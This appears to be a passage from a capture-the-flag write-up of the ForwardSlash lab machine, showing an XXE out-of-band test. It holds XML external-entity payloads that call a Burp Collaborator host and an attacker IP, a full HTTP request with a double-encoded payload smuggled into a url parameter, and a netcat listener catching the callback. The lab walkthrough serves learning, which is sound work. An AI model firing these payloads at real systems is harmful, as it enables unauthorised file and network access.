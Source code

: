     
    
    <?xml version="1.0" ?>
    <!DOCTYPE root [
    <!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
    ]>
    <r></r>
    

I first tried it as HTTP, updated it to connect back to me:

    
    
    <?xml version="1.0" ?>
    <!DOCTYPE root [
    <!ENTITY % ext SYSTEM "http://10.10.14.24/x"> %ext;
    ]>
    <r></r>
    

I started `nc` on 80, and sent the payload with Burp Repeater:

    
    
    POST /profilepicture.php HTTP/1.1
    Host: backup.forwardslash.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://backup.forwardslash.htb/profilepicture.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 583
    Connection: close
    Cookie: PHPSESSID=q0gqh5u3ak0hltppu9jq91iu0a
    Upgrade-Insecure-Requests: 1
    Pragma: no-cache
    Cache-Control: no-cache
    
    url=http://backup.forwardslash.htb/dev/index.php?xml=%253c%253f%2578%256d%256c%2520%2576%2565%2572%2573%2569%256f%256e%253d%2522%2531%252e%2530%2522%2520%253f%253e%250d%250a%253c%2521%2544%254f%2543%2554%2559%2550%2545%2520%2572%256f%256f%2574%2520%255b%250d%250a%253c%2521%2545%254e%2554%2549%2554%2559%2520%2525%2520%2565%2578%2574%2520%2553%2559%2553%2554%2545%254d%2520%2522%2568%2574%2574%2570%253a%252f%252f%2531%2530%252e%2531%2530%252e%2531%2534%252e%2533%2534%252f%2578%2522%253e%2520%2525%2565%2578%2574%253b%250d%250a%255d%253e%250d%250a%253c%2572%253e%253c%252f%2572%253e
    

I got a connection at `nc`:

    
    
    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.183.
    Ncat: Connection from 10.10.10.183:47328.
    GET /x HTTP/1.0
    Host: 10.10.14.24
    Connection: close
    